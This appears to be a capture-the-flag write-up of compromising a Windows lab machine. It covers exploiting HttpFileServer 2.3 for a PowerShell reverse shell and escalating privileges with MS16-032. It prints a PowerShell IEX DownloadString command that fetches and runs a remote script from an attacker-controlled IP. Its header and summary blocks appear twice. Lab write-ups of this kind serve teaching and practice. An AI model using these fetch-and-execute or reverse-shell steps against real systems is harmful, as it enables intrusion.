






# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }


- Summary
- Recon
- Exploitation
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Enumerate Vulnerable version of file server
- Exploit vulnerability to pop powershell...shell
- Escalate privileges with MS01632


## [](#header-2)Recon:

Before my nmap scan was even done I found something interesting in the home page.



I am able to see that the service running on port 80 is a server "HttpFileServer 2.3".

I do a searchsploit of HttpFileServer 2.3 and find exactly what I was looking for.





## [](#header-2)Exploitation:

In order for the exploit to work you need to give the target server a command to run. 

I chose Invoke-PowershellTCP.ps1 and I had to edit it in order to allow the script to run a reverse shell



Then after running the exploit and setting up our nc listener/ local python server(I renamed Invoke reverse shell to mini-reverse.ps1 on accident)



Annnnd we get some access



## [](#header-2)Privilege Escalation:

Going through the motions with privesc for a Windows box, I start out with a simple systeminfo command to see what I'm working with.


From here in order to automate the privesc search process I downloaded from my local python server, Sherlock written by RastaMouse
```powershell
PS C:\Users\kostas\Desktop> IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.28/Sherlock/Sherlock.ps1')
```

Runnning Sherlock the system appears vulnerable to the following:

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable
```
I used powershell empire's MS01632 exploit to automate this process and was able to get root




This lab was a good walk through to learn certain privilege escalation techniques/methodologies within Windows.